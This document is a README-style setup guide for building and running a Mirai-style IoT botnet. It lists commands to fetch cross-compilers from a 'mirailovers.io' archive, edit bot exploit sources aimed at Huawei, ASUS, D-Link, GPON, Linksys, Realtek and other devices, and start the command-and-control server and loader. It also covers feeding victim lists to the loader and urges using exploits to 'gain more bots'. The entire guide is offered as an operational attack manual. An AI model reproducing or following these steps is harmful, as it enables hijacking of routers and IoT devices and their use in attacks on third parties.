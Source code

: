 # miễn trừ mọi trách nhiệm, Dự án chỉ mang tính chất tham khảo

# Setup Guide by VanTrong

## Install on CentOS 7.x
### Basic VPS Configuration
**Recommended Specs:**
- 2 vCores
- 4GB RAM
- 20GB SSD

### Step 1: Update & Install Required Packages
```bash
yum update -y
yum install epel-release -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### Step 2: Install Golang
```bash
wget https://go.dev/dl/go1.21.3.linux-amd64.tar.gz
rm -rf /usr/local/go && tar -C /usr/local -xzf go1.21.3.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
go version
go env -w GO111MODULE=off
go get -u github.com/go-sql-driver/mysql
```

### Step 3: Download & Extract Cross Compilers
```bash
mkdir /etc/xcompile
cd /etc/xcompile
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-i586.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-i686.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-m68k.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-mips.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-mipsel.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-powerpc.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-sh4.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-sparc.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-armv4l.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-armv5l.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-armv6l.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-armv7l.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-powerpc-440fp.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-x86_64.tar.bz2
wget https://mirailovers.io/HELL-ARCHIVE/COMPILERS/cross-compiler-i486.tar.gz

tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -vxf arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
tar -jxf cross-compiler-powerpc-440fp.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
tar -xvf cross-compiler-i486.tar.gz

rm -rf *.tar.bz2 *.tar.gz *.tar *.tar.xz

mv cross-compiler-i586 i586
mv cross-compiler-i686 i686
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install arc
mv cross-compiler-powerpc-440fp powerpc-440fp
mv cross-compiler-x86_64 x86_64
```

### Step 4: Change IPs in Source Code
Modify the following files with your IP:
```bash
/bot/includes.h
/bot/huawei.c
/bot/asus.c
/bot/comtrend.c
/bot/dlink_scanner.c
/bot/gpon443.c
/bot/jaws.c
/bot/linksys.c
/bot/gpon80_scanner.c
/bot/netlink.c
/bot/tr064.c
/bot/realtek.c
/bot/thinkphp.c
/bot/hnap_scanner.c
/cnc/main.go
/loader/src/main.c
/loader/src/headers/config.h
/scanListen.go
/dlr/main.c
```

### Step 5: Install & Configure MySQL
```bash
yum install mariadb-server -y
systemctl start mariadb.service
mysql_secure_installation
mysql -pYOURPASSWORD
```
Run the following MySQL queries:
```sql
CREATE DATABASE cosmic;
USE cosmic;
-- (Create tables as needed)
```

### Step 6: Restart Services
```bash
iptables -F
service httpd restart
service mariadb.service restart
```

### Step 7: Increase File Limits
```bash
nano /usr/include/bits/typesizes.h
# Change 1024 to 999999, save and exit

ulimit -n999999; ulimit -u999999; ulimit -e999999
```

### Step 8: Build & Run
```bash
cd ~/
chmod 0777 * -R
sh build.sh
ulimit -n999999; ulimit -u999999; ulimit -e999999
```

### Step 9: Start Services
```bash
cd ~/
screen ./cnc
CTRL+A then D
cd loader
screen ./scanListen
CTRL+A then D
```

### How to Connect to Botnet Server
```bash
telnet <your_server_ip> 1312
```

### How to Load Bots
```bash
cd loader
cat *.txt | ./loader
```

**NOTE:** Use exploits to gain more bots. Instructions are in the files.

🔥 **Setup Complete!** 🚀

